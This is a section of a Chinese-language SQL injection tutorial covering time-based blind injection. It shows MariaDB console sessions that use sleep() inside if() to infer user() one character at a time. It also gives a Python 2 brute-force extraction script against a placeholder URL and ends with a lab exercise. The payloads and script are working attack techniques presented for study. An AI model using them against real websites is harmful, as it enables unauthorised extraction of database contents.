 #### 2.time型注入

基于布尔的注入是因为页面只能返回是或否两种页面，以此来判断我们查询的内容，但是我们也有可能遇到这些情况：

不管输入什么都只显示当前页面

错误输出不单一，多种错误形式

这些情况下，我们就不能通过布尔来判定我们查询的结果了，这时候，就应该使用另一种高级注入方法：时间注入

时间注入有两种注入的函数，这儿我只讲**Sleep()**
在Mysql中可以通过这个函数延迟输出

而在mysql中还有个判断函数是if()
```
If(condition,action1,action2)
```
直接看看Mysql中的情况：
```shell
MariaDB [sql]> select sleep(0.5);
+------------+
| sleep(0.5) |
+------------+
|          0 |
+------------+
1 row in set (0.50 sec)
```
这是sleep的测试结果，mysql上返回了执行时间，而在web部分的话，我们可以通过Burpsuite抓包，大致判断是否有时间注入
```
MariaDB [sql]> select if(user()='root@localhost',sleep(2),null);
+-------------------------------------------+
| if(user()='root@localhost',sleep(2),null) |
+-------------------------------------------+
|                                         0 |
+-------------------------------------------+
1 row in set (2.00 sec)
```
执行时间是2，说明我们的user()是root

那么实际上的操作代码应该是这样的：
```
MariaDB [sql]> select * from users where id ='1' and if(ascii(substr((select user()),1,1))=114,sleep(2),null);
Empty set (2.00 sec)

MariaDB [sql]> select * from users where id ='1' and if(ascii(substr((select user()),1,1))=114,sleep(3),null);
Empty set (3.00 sec)
```
可以看到，我们再次可以判断出user()的第一个字节

**盲目注入常常通过写脚本解决**
```python
import requests
urltest="" #验证页面，通常为正确页面
URL=requests.get(urltest)
for j in range(17):
	for i in range(33,125):
		i=str(i)
		j=str(j)
		url="http://xxx.com/sql.php?id=1 and ascii(substr(keyword,"+j+",1))="+i #注入用于比对的URL
		url=requests.get(url)
		if url.text==URL.text:
			print chr(int(i))
```
{实验:测试两种盲目注入，爆出数据，编写python脚本}
